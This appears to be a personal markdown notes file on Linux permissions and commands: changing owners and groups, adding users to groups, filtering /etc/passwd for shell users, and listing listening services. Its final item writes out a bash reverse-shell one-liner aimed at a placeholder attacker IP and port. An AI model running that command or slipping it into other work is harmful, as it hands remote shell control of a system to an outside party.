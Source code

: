```yaml
---
title: 'Linux Notes'
desc: 'Notes about permissions and other stuff'
tags: 'linux,permissions, commands'
---
```


# Notes about permissions and other stuff

* Assign owner and group to a file

```
# 1. chown & chgrp
chown [new owner] [file/dir]
chgrp [new group] [file/dir]

# 2. condensed
chown [new owner]:[new group] [file/dir]
```

* Group assignations

```
# create a group
groupadd [name]

# include a user in a group
usermod -a -G [group] [user]
```

* Filter by arguments

```
# grep + awk-FS (delimiter)
cat /etc/passwd | grep "sh$" | awk '{print $1}' FS=":"

$> root
```

* Internet network services list: port numbers and protocol types. 

```
# services list
less /etc/services

# active services
ss -tulpn | grep 'LISTEN'
```

* cat in windows: type [filename]

* grep in windows: findstr "keyword"

* reverse http connection

```
bash -c "bash -i >& /dev/tcp/[attacker_ip]/[port] 0>&1"
```







